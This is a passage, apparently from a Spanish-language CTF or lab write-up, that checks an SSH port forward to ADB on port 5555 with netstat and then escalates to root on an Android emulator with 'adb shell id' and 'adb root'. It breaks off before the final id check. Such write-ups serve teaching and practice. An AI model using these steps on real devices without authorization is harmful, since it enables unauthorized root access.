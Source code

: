 Se verifica el estado del puerto mediante el uso de `netstat` para confirmar si la operación se realizó de manera adecuada.

```bash
netstat -tunlp
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:5555          0.0.0.0:*               LISTEN      3898/ssh            
tcp6       0      0 ::1:5555                :::*                    LISTEN      3898/ssh            
udp        0      0 0.0.0.0:56890           0.0.0.0:*                           -                   
```
{: .nolineno}




Con esto, se logra interactuar con **adb** desde nuestra máquina atacante. Es importante señalar que, en algunos equipos, esta herramienta no viene por defecto y es necesario descargarla.  Y en primer lugar se va a revisar cuantos equipos se encuentran conectados.



```bash
adb devices
List of devices attached
emulator-5554	device
```
{: .nolineno}


Posteriormente, se intentan ejecutar comandos, pero se observa que se están ejecutando como el usuario **shell**.

```bash
adb shell id
uid=2000(shell) gid=2000(shell) groups=2000(shell),1004(input),1007(log),1011(adb),1015(sdcard_rw),1028(sdcard_r),3001(net_bt_admin),3002(net_bt),3003(inet),3006(net_bw_stats),3009(readproc),3011(uhid) context=u:r:shell:s0
```
{: .nolineno}

Ante esta situación, se intenta lanzar la shell como **root**. Como se evidenció previamente mediante el proceso enumerado, esto es posible en la actualidad, por lo que al ejecutar este comando se obtendrían privilegios de **root**.


```bash
adb root
restarting adbd as root
```
{: .nolineno}


Ahora se puede confirmar que el usuario que ejecuta los comandos es el usuario root con el el comando `id`: 
